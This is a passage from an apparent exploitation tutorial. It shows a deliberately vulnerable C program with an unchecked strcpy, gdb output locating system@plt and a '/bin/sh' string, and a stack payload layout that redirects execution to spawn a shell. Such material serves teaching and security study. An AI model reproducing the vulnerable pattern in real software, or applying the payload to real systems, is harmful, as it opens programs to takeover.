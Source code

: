 # Calling arguments #

Now that we can return to an arbitrary function, we want to be able to pass arbitrary arguments. We will exploit this simple program[^3]:

~~~
:::c
char* not_used = "/bin/sh";

void not_called() {
	printf("Not quite a shell...\n");
	system("/bin/date");
}

void vulnerable_function(char* string) {
	char buffer[100];
	strcpy(buffer, string);
}

int main(int argc, char** argv) {
	vulnerable_function(argv[1]);
	return 0;
}
~~~

This time, we cannot simply return to `not_called`. Instead, we want to call `system` with the correct argument. First, we print out the values we need using `gdb`:



~~~
:::console
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) pring 'system@plt'
$1 = {<text variable, no debug info>} 0x8048360 <system@plt>
(gdb) x/s not_used
0x8048580:	 "/bin/sh"
~~~

In order to call `system` with the argument `not_used`, we have to set up the stack. Recall, right after `system` is called it expects the stack to look like this:

~~~
:::text
| <argument>       |
| <return address> |
~~~

We will construct our payload such that the stack looks like a call to `system(not_used)` immediately after the return. We thus make our payload:

~~~
:::text
| 0x8048580 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048360 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
~~~
 

[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.
[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   
[^10]: Note the `$'\211'` syntax to enter escape characters.
[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.